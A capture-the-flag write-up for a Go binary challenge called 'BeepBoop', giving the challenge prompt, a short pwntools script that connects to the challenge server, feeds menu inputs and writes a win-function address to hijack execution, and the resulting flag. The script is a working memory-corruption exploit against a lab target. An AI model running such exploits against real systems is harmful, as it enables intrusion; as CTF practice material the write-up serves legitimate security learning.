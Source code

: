 # BeepBoop

Solved by: @OS1R1S

## Question:
A friend of mine really loves beeps and boops. Since both are equally amazing, he even built a converter to convert them into each other. To develop his programming skillz, he used Go because it’s fast and safe. But as I tried it out, something seems off!

## Solution:

```
from pwn import *

file = ELF("./beepboop")
context.binary = file
p = remote("10.71.15.222", 1337)

win = file.symbols["main.sheepshoop"]

def asd():
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"How many: ", b"10")
    for i in range(9):
        p.recvuntil(b"> ")
        p.sendline(b"0")
    p.sendline(str(win).encode())
    full_output=p.recvall(timeout=3)
    print(full_output.decode(errors="replace"))
asd()
```

**Flag:** `PP{golang-unsafe-b33pb00p}`
